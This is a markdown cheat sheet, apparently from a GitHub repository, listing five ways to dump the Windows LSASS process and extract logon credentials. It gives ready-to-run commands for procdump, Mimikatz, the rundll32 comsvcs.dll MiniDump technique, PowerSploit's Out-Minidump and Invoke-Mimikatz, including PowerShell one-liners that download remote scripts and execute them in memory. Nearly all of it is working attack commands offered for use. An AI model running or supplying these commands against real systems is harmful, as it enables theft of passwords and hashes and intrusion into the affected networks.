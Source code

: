 # Methods to Dump LSASS
Craft a comprehensive guide detailing various methods for dumping the LSASS.<br>
I think This will be a valuable one and will make people stay updated on new techniques.
## 1. Procdump:
Procdump is a part of Microsoft Sysinternals and a command-line<br>utility programs for producing dumps of any running process<br>
We can leverage it and use it fo DUMP lsass process by the following:<br>
<code>procdump.exe -ma lsass.exe C:\path\lsass.dmp</code>

## 2. Mimikatz:
Mimikatz can both dump the LSASS process and read from an LSASS dump:<br>
<code>privilege::debug = Debugging Mode
sekurlsa::logonPasswords = Dump passwords
</code>

* To Read from an LSASS dump:<br>
<code>sekurlsa::minidump C:\path\lsass.dmp
sekurlsa::logonpasswords</code>

## 3. Rundll32
This is a native Windows utility method which can we can use:<br>
<code>rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <LSASS_Process_ID> C:\path</code><br>
for getting lsass process ID, you can RUN "Get-Process lsass" on powershell.
* User can also done this by making a PS script containing the following:
<code>$lsass = Get-Process lsass
$dumpPath = "C:\Users\Adwin2\Desktop\lsass.dmp"
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $($lsass.Id) $dumpPath full</code><br><br>
<b>Note</b>: Change $dumpPath

## 4. PowerSploit's Out-Minidump:
Ensure the Out-Minidump function is loaded in your PowerShell session<br>
<code>"IEX (New-Object Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1')"
Get-Process lsass | Out-Minidump -DumpFilePath C:\Path\To\Dump
</code>

##  5. Using Invoke-Mimikatz from the GitHub Repository:
Download & Import the Script:
First, you need to get the Invoke-Mimikatz.ps1 script from the GitHub repository.
If you're working directly on the machine:
<code>IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/g4uss47/InvokeMimikatz/master/Invoke-Mimikatz.ps1')</code><br>

Invoke Mimikatz to Dump LSASS:<br>
Once the module is imported, you can run Invoke-Mimikatz to dump the LSASS</br>

<code>Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonPasswords"'</code><br>
* You can also using minidump module to select where to read:<br>
<code>Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::minidump C:\Path\To\Load\Lsass"'</code>
